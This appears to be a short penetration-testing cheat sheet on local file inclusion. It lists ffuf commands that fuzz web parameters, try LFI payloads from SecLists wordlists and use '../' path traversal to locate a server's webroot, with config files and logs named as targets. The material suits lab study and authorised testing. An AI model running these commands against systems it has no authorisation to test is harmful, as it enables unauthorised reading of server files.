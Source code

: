 
#### Fuzzing parameter values
```shell-session
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value'
```



#### LFI Fuzzing
Wordlist
	https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI
	https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```shell-session
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ'
```


#### Fuzzing Server Files

Files to look for
 `Server webroot path`, `server configurations file`, and `server logs`

##### Finding server Webroot path

Wordlist
	Linux- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt
	Windows- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt
	https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```shell-session
ffuf -w /PATH/FILE:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php'
```



